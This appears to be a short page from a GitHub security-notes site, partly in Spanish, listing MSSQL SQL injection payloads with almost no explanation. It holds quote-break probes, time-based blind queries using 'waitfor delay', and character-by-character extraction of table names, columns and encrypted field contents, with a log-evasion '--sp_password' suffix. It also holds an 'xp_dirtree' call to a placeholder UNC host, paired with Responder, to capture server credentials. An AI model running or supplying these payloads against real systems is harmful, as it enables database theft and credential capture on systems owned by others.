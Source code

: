 ```yaml
---
layout: app
title: "SQl Injection"
tags: ["SQL","sql injection"]
section: "SqlI"
  
---
```


# Get Information MSSQL

## Get Information

```sql
concat([column],[separator], [column2])<br/>
string_add(concat([column],[separator], [column2]),'[separator]')
```

# RCE MSSQL

```sql
;exec sp_configure 'show advanced options',1<br/>
;exec xp_dirtree '\\X.X.X.X\sharefolder\sharefile' ;
```

# MSSQL

```
%' --Like
Valor' 
Valor' -- -
```

### RCE

```sql
;exec sp_configure 'show advanced options',1
;exec xp_dirtree '\\X.X.X.X\sharefolder\sharefile' ;-- -
```

```bash
sudo Responder -I <iface>
```

### Extraer Información

```sql
concat(<column>,<separator>, <column2>)
string_add(concat(<column>,<separator>, <column2>),'<separator>')
```

## Time Based

```jsx
;IF 1=(select 1 from sys.tables where substring(name,1,1)='{tablename}') waitfor delay '00:00:05'
;IF 1=(select 1 where substring(db_name(),1,1)='h') waitfor delay '00:00:05';
```

# Queries

### Get columns of a table

```sql
Select top 1 null,null from sys.columns c inner join sys.tables t on 
c.object_id=t.object_id where t.name='<tablename>' and substring(c.name,1,<offset>)='<letter>'
```

### Get Information

```sql
Select  * from <table> where ascii(substring(<column>,1,1))=#NUMBER 33-126
```

### From Encrypted Field

```sql
select * from <table> where substring(CONVERT(VARCHAR(MAX), CONVERT(VARBINARY(MAX), <column>), 2),1,<offset>)='<digit|letter>' --sp_password
select * from <table> where substring(DecryptByPassPhrase('<password>', <column>),1,<offset>)='<digit|letter>' --sp_password
```